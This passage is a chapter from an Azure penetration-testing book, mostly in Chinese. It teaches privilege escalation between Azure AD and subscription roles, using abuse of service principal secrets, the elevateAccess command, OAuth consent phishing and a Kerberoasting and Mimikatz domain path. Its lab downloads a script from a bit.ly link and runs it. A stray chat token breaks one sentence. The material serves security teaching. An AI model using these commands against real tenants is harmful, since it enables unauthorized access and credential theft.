### 7
Exploiting Owner and Privileged Azure AD Role Permissions

In the first chapter of this book, we made a distinction between the Azure AD roles and the Azure RBAC roles. We mentioned that Azure AD roles are used to manage access to Azure AD resources and operations, such as user accounts or group creation, and password resets, while Azure RBAC roles are used to manage access to Azure resources such as subscriptions, storage accounts, and SQL databases. For the most part, both services have separate scope boundaries. In general, an Azure AD role assignment does not grant access to manage Azure resources and an Azure RBAC role assignment does not grant access to manage Azure AD resources.

Bridging the gap from subscription Owner up to the root management group, or an Azure AD administrative role, or to on-premises targets, can be a difficult task. Likewise, moving laterally from Azure AD to Azure subscription resources could be tricky. In this chapter, we will focus on different techniques that can be used to move laterally beyond the scope of a user's existing permissions assignment within an environment.


以下是我们将要涵盖的主题：

- 从 Azure AD 提升到 Azure RBAC 角色
- 从订阅所有者提升到 Azure AD 角色
- 攻击本地系统以在 Azure 中提升权限

#### 技术要求

在本章中，我们将讨论如何使用 BloodHound 工具在 Azure 租户（以及普通 Active Directory）中查找可被滥用以提升权限的路径。虽然并非绝对需要跟随操作，但这是一个值得拥有的强大工具：

- BloodHound: https://github.com/BloodHoundAD/BloodHound

#### 从 Azure AD 提升到 Azure RBAC 角色

如图 7.1 所示，Azure AD 角色分配不会授予管理 Azure 资源的访问权限，而 Azure RBAC 角色分配默认也不会授予管理 Azure AD 资源的访问权限：



图 7.1 – Azure AD 角色与 Azure RBAC 角色

**重要说明**
即使本章的讨论主要集中在 Azure AD 中的全局管理员角色上，Azure AD 中还有其他内置角色可用于执行此攻击。这包括以下角色：**用户管理员**、**组管理员**和**目录写入者**。此外，任何具有以下权限的 Azure AD 自定义角色都可能被利用：`microsoft.directory/groups/members/update`。

这是一个非常简单的攻击，我们在 *第 4 章，滥用 Reader 权限* 的动手练习中已经利用过类似的东西，但略有变化。如果用户已在订阅中拥有权限，很容易识别订阅中任何特权组，但如果我们的 Active Directory 用户没有任何订阅权限，我们能做什么呢？一种方法是查看 Azure AD 登录日志。

Azure AD 登录日志会自动记录交互式和非交互式登录活动。从攻击角度来看，日志包含大量信息，可以让攻击者了解哪些用户有权访问每个 Azure AD 应用程序、哪些用户帐户或应用程序是容易的目标，以及如何规避防御配置的信息！

在我们的案例中，我们可以通过门户登录或使用 Azure PowerShell 查看日志，以查看有权访问 Azure 资源的<|message|>。我们随后可以将该信息与用户的组成员身份相关联。

要使用 Azure PowerShell 查看登录日志，我们首先需要安装 AzureAD 预览版 PowerShell 模块。在撰写本文时，此功能仅在模块的预览版中可用。某些预览功能永远不会进入正式发布版本，因此此功能*可能*将来不会正式发布。

请注意，此模块不能与 **正式发布版 (GA)** 的 AzureAD 模块并行安装，因此如果已安装，我们可能首先需要删除 GA 版本。假设您一直在按照示例操作，AzureADPreview 应该已作为设置 PowerZure 的一部分安装。

如果模块尚未设置，您可以使用以下说明进行操作：

```
#### Remove the GA version if it is installed
Uninstall-Module AzureAD
#### Install the preview version of the AzureAD module. Close and re-open the PowerShell console afterwards
Install-Module AzureADPreview
#### Verify that the GA version of the module is installed
```

```
Import-Module AzureADPreview
Get-Module AzureADPreview | select Name,Version
Name        Version
----        -------
AzureADPreview 2.0.2.138
```

要查看有趣事件的登录日志，我们可以使用 Get-AzureADAuditSignInLogs cmdlet，如以下命令所示（此命令需要原生工作/学校 Azure AD 用户帐户，而不是 Microsoft 帐户）。以下命令将筛选登录日志，以在指定时间范围内成功登录 Azure 门户或 Azure PowerShell（日期可以修改为当前日期之前的日期，以获取过去 24 小时的结果）。这些命令的输出提供了非常有用的信息，我们可以用来验证 Azure 管理工具的用户，这通常意味着他们对 Azure 资源具有某种级别的访问权限：

```
#### First connect to Azure AD
Connect-AzureAD
#### Get successful Azure Portal sign-ins in the time range (greater than the specified date)
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Azure Portal' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0"
#### Get successful Azure PowerShell sign-ins in the time range (greater than the specified date)
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Microsoft Azure PowerShell' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0"
```

我们可以进一步筛选以获取有助于显示用户帐户安全配置的属性。此信息在需要绕过防御时可能很有用：

```
#### Get interesting authentication properties for successful Azure Portal sign-ins
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Azure Portal' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0" | Select-Object UserPrincipalName, MfaDetail, AppliedConditionalAccessPolicies
```

以下是此命令的示例输出：



图 7.3 – 登录审计的 PowerShell 命令结果

以下 Azure AD 内置角色具有读取此信息所需的权限：安全管理员、安全阅读器和报告阅读器。此外，任何具有以下权限的自定义 Azure AD 角色也可能被使用：

- microsoft.directory/groups/allProperties/allTasks - 授予在 Azure AD 中读取和更新组属性的权限
- microsoft.directory/signInReports/allProperties/read - 授予读取登录报告的权限

还值得注意的是，如果您的渗透测试范围涵盖了该情况，则存在从 Azure AD 横向移动到其他可能使用 Azure AD 作为其身份提供者的云应用程序的机会。您可以通过查看 Azure AD 中的企业应用程序来发现与其他 Azure AD 存在信任关系的其他应用程序。您可以使用此部分查找获授权访问应用程序的用户以及他们所属的组。如果访问是通过组授予的，您可以加入这些组以获得对这些云应用程序的权限。

#### 路径 2 – 重置用户密码

另一种可能被利用以横向移动到另一个 Azure 订阅的路径是重置具有另一个 Azure 订阅权限的用户密码并以该用户身份登录。此路径不太受青睐，因为它会影响用户的现有访问权限且更具侵入性。如果用户突然无法使用一直使用的密码登录其帐户，很容易引起警报，并且审计日志会反映最近的密码更改事件。

除了全局管理员角色外，以下 Azure AD 角色具有重置用户密码的权限：密码管理员、服务台管理员、身份验证管理员、用户管理员和特权身份验证管理员。特权身份验证管理员角色具有不受限制的重置密码权限，但其他列出的角色仅对权限少于其角色本身的用户具有有限的重置密码权限。Microsoft 已详细说明了所有具有密码重置权限的 Azure AD 角色，以及他们可以为哪些用户重置密码，网址为 https://docs.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#password-reset-permissions。

对于此路径需要考虑的另一点是可能为帐户配置的额外安全保护。例如，您可能希望查看登录日志以确定用户帐户是否需要使用 MFA，或者先前的登录事件是否应用了其他登录条件。

#### 路径 3 – 利用服务主体密钥

另一种可用于从 Azure AD 横向移动到 Azure 资源的方法是通过利用具有 Azure 资源权限的现有服务主体。它在组织中很常见，服务主体具有特权角色分配，例如订阅级别的参与者。事实上，这是自动在 Azure DevOps 中创建的服务主体默认授予的角色分配！我们在第 4 章《滥用 Reader 权限》中利用了相同的场景，以从 Reader 角色提升权限。图 7.4 显示了此攻击的工作方式：



图 7.4 – Azure AD 服务主体到订阅的关系


它为我们提供了以下信息：

+   1. **User3** 最初对 Azure 资源没有访问权限，但拥有更新服务主体凭据的权限。
+   2. **App-1** 的服务主体被分配了 Azure 资源的参与者角色。
+   3. **User3** 获取 **App-1** 的应用 ID，并利用该权限向 **App-1** 添加新的客户端机密。
+   4. **User3** 使用应用 ID 和新添加的密钥获得对 Azure 资源的访问权限。

> **重要说明**
> 本章的讨论集中在 Azure AD 中的“全局管理员”角色上，但 Azure AD 中还有其他一些内置角色可用于执行此攻击，包括：**应用程序管理员**、**云应用程序管理员**、**目录同步账户**和**混合身份管理员**。此外，任何具有以下权限的 Azure AD 自定义角色都可能被利用：`microsoft.directory/servicePrincipals/credentials/update`。

此路径比重置用户密码的路径更受青睐，因为它侵入性较小。它不会影响使用服务主体的应用程序的任何现有访问权限，只是为攻击者增加了一种额外的访问方式。要识别具有 Azure 资源访问权限的服务主体，我们可以查看登录日志中的非交互式登录活动。此外，服务主体通常以其所使用的应用程序和/或订阅命名，因此其名称可能是一个很好的线索。

#### 路径 4 – 提升对根管理组的访问权限

从 Azure AD 横向移动到 Azure 资源的另一条路径是提升对根管理组的访问权限。此选项是为了让全局管理员在所有者失去访问权限时重新获得对订阅的访问权限而存在的，但它也可能被攻击者利用。

提升操作隐式授予 **用户访问管理员** 角色对租户中所有订阅和管理组的访问权限，从而拥有向 Azure 资源分配角色的不受限制的权限（*图 7.5*）。利用此漏洞的攻击者可以查看所有资源，并在租户中的任何订阅或管理组中分配访问权限！

```
{
  "properties": {
    "roleName": "",
    "description": "",
    "assignableScopes": [
      "/subscriptions/204cce89-27de-4669-a48b-04c27255e05e"
    ],
    "permissions": [
      {
        "actions": [
          "*/read",
          "Microsoft.Authorization/*",
          "Microsoft.Support/*"
        ],
        "notActions": [],
        "dataActions": [],
        "notDataActions": []
      }
    ]
  }
}
```

用户访问管理员角色对 Microsoft.Authorization 具有完全访问权限。

图 7.5 – 用户访问管理员角色定义

可以通过 Azure 门户中 Azure AD 的属性部分完成提升（图 7.6）：



图 7.6 – 修改对租户中所有订阅的访问权限

也可以通过 Azure CLI 以编程方式完成提升。相关命令如下：

```
az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"
```

> **重要说明**
> 微软提供了关于此功能在 Azure AD 中如何工作的出色文档。请参阅以下 URL 以获取更多信息：https://docs.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin#how-does-elevated-access-work。

现在我们已经了解了如何提升权限，接下来看一个实际示例。

#### 动手实验 – 准备全局管理员/所有者利用场景

本动手实验将为我们完成本章其余实验做好准备。要跟随本章将介绍的场景进行操作，你需要先在 Azure AD 租户中设置一个具有全局管理员权限的用户，再在 Azure 订阅中设置一个具有所有者权限角色的用户。我们使用一个可以通过 Azure Cloud Shell 运行的 PowerShell 脚本自动完成了此设置。以下是本实验要完成的任务：

+   1. 打开 Web 浏览器并访问 Azure 门户（https://portal.azure.com）。使用 azureadmin 凭据登录。
+   2. 在 Azure 门户中，点击右上角的 Cloud Shell 图标。选择 PowerShell：
+   3. 在 Cloud Shell 窗格中的 PowerShell 会话中，运行以下命令，以下载一个脚本，用于创建具有所有者权限的用户账户、一个具有全局管理员权限的用户，并设置所需的易受攻击工作负载：


图 7.7 – 点击图标以打开 Cloud Shell

```
PS C:\> Invoke-WebRequest https://bit.ly/owner-scenarios -O owner-scenarios.ps1
PS C:\> Get-ChildItem
```

以下是操作截图的示例：



图 7.8 – 下载 Owner 场景脚本

4. 运行下载的脚本，以预配本章练习所需的对象和资源，使用以下命令：

```
PS C:\> ./owner-scenarios.ps1
```

当提示输入密码时，输入 myPassword123 并按 Enter。等待脚本部署完成。这可能需要大约 8 分钟：



图 7.9 – 运行 Owner 场景脚本

#### 这个脚本做什么？

该脚本会在 Azure AD 中创建一个具有全局管理员权限的用户账户，并在 Azure 订阅中创建另一个具有所有者权限的用户。请参见图 7.10 的示意图：



图 7.10 – 全局管理员/所有者利用场景

5. 脚本完成后，本练习其余部分所需的关键信息将显示在输出部分。请将这些信息复制到记事本文档中，以备后用。你需要从输出部分获取四个值：

Azure Global Admin User：这是具有 Azure AD 全局管理员权限的管理员用户名。

**Azure Global Admin User Password：** 这是全局管理员用户的密码。

**Azure Owner User：** 这是对 Azure 资源具有所有者权限的管理员用户名。

**Azure Owner User Password：** 这是 Azure 资源所有者用户的密码。

相关信息可以在以下截图中看到：



图 7.11 – 获取脚本输出

现在，你已经成功创建了将在本章后续练习中使用的资源。在下一个动手实验中，我们将介绍如何利用提升访问权限选项，从 Azure AD 横向移动到 Azure 资源。

#### 动手实验 – 提升访问权限

以下是本实验要完成的任务：

+   - **任务 1：** 验证当前用户的访问权限。
+   - **任务 2：** 使用 Azure CLI 提升访问权限。
+   - **任务 3：** 验证对 Azure 资源的访问权限。

让我们逐步完成这些任务：

+   1. 在你的 Pentest VM 上打开 **PowerShell**。
+   2. 在 **PowerShell** 控制台中，输入 `bash` 切换到 **Windows Subsystem for Linux**。
+   3. 使用以下命令切换到 root 用户。当提示时，输入管理员密码：

```
azureuser@PentestVM:~# sudo su -
```

4. 使用 Azure CLI 命令 – az login 向 Azure 进行身份验证：

```
root@PentestVM:~# az login
```

以下是一个截图：



图 7.12 – az login 的结果

5. 当提示时，输入你在本章第一个练习中从脚本输出获取的 Azure 全局管理员凭据：



图 7.13 – Azure 密码提示

你将收到一条关于无法访问订阅的输出消息。这是因为该账户仅有权访问 Azure AD，而无法访问任何 Azure 订阅：




图7.14 – AZ CLI登录结果

6. 运行以下命令以获取租户级访问权限。当提示时，使用之前使用的同一全局管理员用户进行身份验证：

```
az login --allow-no-subscriptions
```

这次你会收到一条关于成功登录的消息。以下是输出截图：



图7.15 – 作为全局管理员成功登录

7. 运行以下命令，利用全局管理员角色修改对Azure资源的权限：

```
az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"
```

如果没有收到任何输出，则表示命令已成功执行。

8. 注销，然后使用全局管理员凭据重新登录，以确认你现在对Azure订阅资源拥有权限：

```
az logout
```

```
az login
```

以下是相关截图：



图7.16 – 具有订阅访问权限的AZ CLI登录

9. 使用以下命令将订阅所有者角色分配给全局管理员账户：

```
userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)
```

```
az role assignment create --role "Owner" --assignee $userPrincipalName
```

命令将成功执行，证明你已经使用提升后的全局管理员角色修改了Azure资源的权限！以下是命令的输出：

```
root@PentestVM:~#
root@PentestVM:~# userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)
root@PentestVM:~# az role assignment create --role "Owner" --assignee $userPrincipalName
{
  "canDelegate": null,
  "condition": null,
  "conditionVersion": null,
  "description": null,
  "id": "/subscriptions/204cce89-.../providers/Microsoft.Authorization/roleAssignments/5ac7db39-887b-40c6-a743-e562f2120a6a",
  "name": "5ac7db39-887b-40c6-a743-e562f2120a6a",
```

图7.17 – 分配所有者角色

现在，我们已经从Azure AD修改了自身对Azure订阅的权限。让我们探讨相反的场景以及可用于实现这一目标的技术。

#### 从订阅所有者提升到Azure AD角色

在渗透测试中，你可能还希望从Azure订阅横向移动到Azure AD。这一目标可能是攻击链的一部分，其目的是在Azure AD中打开后门以实现持久化。我们将在第8章“在Azure环境中实现持久化”中讨论持久化主题。以下是可用于实现此目标的一些技术。

#### 路径1 – 利用特权服务主体

与用户账户类似，服务主体和托管标识也可以被分配到Azure AD角色。许多攻击者认为服务主体和托管标识是更容易的目标，因为它们通常被排除在条件访问和MFA等安全策略之外。

攻击者可以利用具有服务主体或托管标识权限的Azure AD账户的特权，访问安全特权主体。这是一条可能路径，但你可能很少遇到，尤其是当组织严格遵守不同作用域分离角色分配的原则时。

#### 路径2 – 利用服务主体的API权限

Microsoft标识平台支持两种类型的服务主体权限：委托权限和应用权限。委托权限用于交互式身份验证流程，其中存在已登录用户。在这种情况下，用户需要在访问时同意权限（或者管理员可以代表用户同意）。

应用权限用于在没有任何用户交互的情况下运行的应用程序，这意味着没有用户登录到这些应用。管理员只需为应用同意一次授予的权限。服务主体被授予对API（如Microsoft Graph）执行敏感操作的权限并不罕见。攻击者可以利用这些权限访问应用已被授予访问权限的API。



图7.18 – 服务主体应用权限

例如，一个应用可能在Azure AD中没有任何角色分配，但如果它具有在Microsoft Graph中执行敏感操作的应用权限，这就可以作为访问Azure AD的间接方式。这种攻击方式也正成为攻击者常用的网络钓鱼技术。通过使用Azure AD同意授权URL（图7.19），攻击者可以使用合法的Azure URL发送给网络钓鱼受害者。此URL使用Azure AD内置的权限批准流程，允许用户批准外部应用程序。

#### 请求的权限

OAuth令牌攻击

此应用程序不是由Microsoft发布的。

此应用希望：

- 让你登录并读取你的个人资料
- 保留你对已授权数据的访问权限
- 读取你的邮件

接受这些权限意味着你允许此应用按照其服务条款和隐私声明使用你的数据。你可以在 https://myapps.microsoft.com 更改这些权限。显示详细信息

此应用看起来可疑吗？请在此处举报

图7.19 – OAuth网络钓鱼攻击示例

从与所有者相关的Azure AD提升场景继续，我们现在将重点介绍利用本地网络的提升技术。

#### 攻击本地系统以在Azure中提升权限

虽然这似乎偏离了攻击Azure服务，但许多租户与其同步的Active Directory环境存在直接连接。通过利用这些连接攻击本地系统，攻击者可能能够提升其在主Active Directory环境中的权限。提升到域管理员权限将使攻击者能够访问域中特权用户的账户，包括那些具有Azure AD权限的用户。

由于在内部环境中提升权限的方法有很多，我们将重点介绍一些通用概念，这些概念将用于从Azure横向移动到本地系统。

#### 识别与本地网络的连接

首先，我们将了解如何识别连接云与本地网络的连接。这些连接可以让我们横向移动到其他网络，从而可能在一般Active Directory环境中进行权限提升。

> **重要说明**
> 
> 由于此场景的实验室需要你设置到另一个网络的连接，我们不会在动手练习中介绍此内容。但我们会提供如何查找这些连接的说明。

在Azure门户中，查找本地连接是一项简单的任务。只需导航到“连接”边栏选项卡，即可看到可用连接列表。这些连接可以是“站点到站点VPN”或“Express Route”连接。

#### 站点到站点（IPsec）连接

站点到站点连接依靠传统网络硬件（VPN集中器、路由器等）创建从Azure到另一个网络的VPN隧道。许多组织选择此选项，因为它允许他们与现有技术集成。站点到站点的主要区别之一是流量通过公共互联网传输，而不是私有骨干连接。

#### Express Route连接

对于那些希望从其网络到Azure拥有更专用（且私有）连接的用户，Express Route连接是首选选项。这些连接通常通过Microsoft有合作关系的服务提供商为组织创建。

虽然了解这些连接的工作原理很重要，但我们真正关心的是如何利用这些连接攻击其他网络。由于创建这些连接需要使用虚拟网关，我们需要检查网关设置，以确定哪些网络可以访问远程连接。


一般来说，如果我们在订阅上拥有 Contributor（或 Owner）角色，我们应该能够访问具有连接访问权限的虚拟网络中的虚拟机资源。最坏的情况下，我们始终可以在适当的虚拟网络中创建一个新的 VM，或将网络接口附加到现有 VM。

在获得对本地网络的访问权限以及一些域凭据后，我们将希望找到在域中提升权限的任何可用选项。我们将在以下章节中介绍一些常见的选项和工具。

#### 识别域提升路径

由于我们假设已提升到 Owner 角色，或提升到具有多个订阅访问权限的帐户，我们将假设在某个阶段收集到了一些域凭据。如果没有，我们建议重新审视前几章，以回顾我们如何从虚拟机和 PaaS 服务中提取域凭据的方法。

使用这些获取的域凭据，我们将希望使用工具来识别 Active Directory 域中可用于提升权限的资源。在许多环境中，需要在系统之间进行多次跳转才能获得域管理员权限。

作为示例，以下是与 Azure 资源集成的 Active Directory 域（ACME.local）的常见域提升路径：

- 攻击者从 Active Directory 或 Azure VM 中收集域凭据（密码猜测、网络协议攻击等）。
- 攻击者使用凭据获取可在 Kerberoasting 攻击中破解格式的 Kerberos 票据。
- 票据被破解，揭示了相关服务帐户（ACME\SQLUser1）的明文凭据。
- 该服务帐户在 AD 服务器计算机组上具有本地管理员权限。
- 该组中的一台服务器（FileServer01）对域管理员帐户 ACME\kfosaen-DA 存在活动登录会话。
- 攻击者使用 SQLUser1 服务帐户凭据以本地管理员身份登录 FileServer01 服务器，并使用 Mimikatz 从 LSASS 进程中转储域管理员凭据。

截至撰写本文时，这是在 Active Directory 域中可用的常见提升路径。这是一条可以通过收集一些基本域信息（服务主体、域组等）手动识别的路径，但也有工具可帮助自动化这些路径的识别。我们将在下一节中介绍其中一些工具，以及有助于在系统之间进行枢转的其他工具。

#### 自动化提升路径的识别

BloodHound 工具的创建是为了帮助简化 Active Directory 提升路径的识别。该工具允许域用户收集有关域中活动主机和用户会话的关键信息，以帮助将权限串联成图。然后可以解析该图以找到到达所需权限的最直接路径：



图 7.20 – 示例 BloodHound 图

